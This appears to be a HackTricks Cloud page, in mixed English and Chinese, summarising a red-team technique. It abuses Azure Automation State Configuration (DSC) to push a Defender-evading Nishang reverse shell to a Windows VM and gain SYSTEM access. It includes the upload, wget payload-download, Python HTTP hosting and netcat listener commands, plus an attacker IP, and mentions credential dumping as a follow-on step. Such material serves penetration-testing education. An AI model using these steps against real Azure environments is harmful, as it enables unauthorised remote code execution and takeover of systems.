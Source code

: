 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

该过程涉及设置一个远程服务器基础设施，以托管一个修改过的Nishang `Invoke-PowerShellTcp.ps1`有效载荷，命名为`RevPS.ps1`，旨在绕过Windows Defender。该有效载荷从IP为`40.84.7.74`的Kali Linux机器上通过一个简单的Python HTTP服务器提供。操作通过几个步骤执行：

#### Step 1 — Create Files

* **Files Required:** 需要两个PowerShell脚本：
1. `reverse_shell_config.ps1`：一个获取并执行有效载荷的期望状态配置（DSC）文件。可以从[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)获取。
2. `push_reverse_shell_config.ps1`：一个将配置发布到虚拟机的脚本，位于[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。
* **Customization:** 这些文件中的变量和参数必须根据用户的特定环境进行调整，包括资源名称、文件路径和服务器/有效载荷标识符。

#### Step 2 — Zip Configuration File

* 将`reverse_shell_config.ps1`压缩为一个`.zip`文件，以便准备传输到Azure存储帐户。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — 设置存储上下文并上传

* 压缩的配置文件使用 Azure 的 Set-AzStorageBlobContent cmdlet 上传到预定义的 Azure 存储容器 azure-pentest。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — 准备 Kali Box

* Kali 服务器从 GitHub 仓库下载 RevPS.ps1 有效载荷。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* 脚本被编辑以指定目标 Windows 虚拟机和反向 shell 的端口。

#### Step 5 — 发布配置文件

* 配置文件被执行，导致反向 shell 脚本被部署到 Windows 虚拟机的指定位置。

#### Step 6 — 托管有效负载并设置监听器

* 启动一个 Python SimpleHTTPServer 来托管有效负载，并设置一个 Netcat 监听器以捕获传入连接。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* 计划任务执行有效载荷，获得SYSTEM级别的权限。

#### 结论

该过程的成功执行为进一步的操作打开了众多可能性，例如凭证转储或将攻击扩展到多个虚拟机。该指南鼓励在Azure Automation DSC领域继续学习和创造。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
